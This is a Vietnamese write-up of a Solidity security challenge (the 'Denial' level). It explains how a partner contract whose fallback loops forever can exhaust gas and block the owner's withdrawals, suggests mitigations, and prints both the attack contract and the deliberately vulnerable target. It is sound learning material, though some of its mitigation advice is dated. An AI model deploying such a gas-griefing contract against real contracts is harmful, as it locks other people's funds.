 ### Kết luận
- Lỗ hổng: Lỗ hổng trong cơ chế `call` để chuyển tiền, nếu đối tác (partner) là một hợp đồng độc hại với hàm `fallback` tiêu tốn nhiều gas hoặc chạy mã phức tạp, nó có thể gây hết gas và ngăn hàm `withdraw` tiếp tục thực hiện. (tấn công kiểu gây rối, bên tấn công cũng ko thu được ether từ hợp đồng chủ sở hữu).
- Cách phòng tránh: Giới hạn lượng gas cung cấp khi dùng `call`, Sử dụng phương pháp chuyển tiền an toàn hơn (VD: `transfer`, `send`, ... ), thêm chỉ chấp nhận địa chỉ đáng tin cậy:
```solidity
require(!isContract(partner), "Partner cannot be a contract");
```


### Contract tấn công
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract DenialAttack {
    fallback() external payable {
        while (true) {
            // Lặp vô hạn để tiêu tốn toàn bộ gas
        }
    }
}
```
### Contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Denial {
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint256 timeLastWithdrawn;
    mapping(address => uint256) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint256 amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value: amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] += amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```
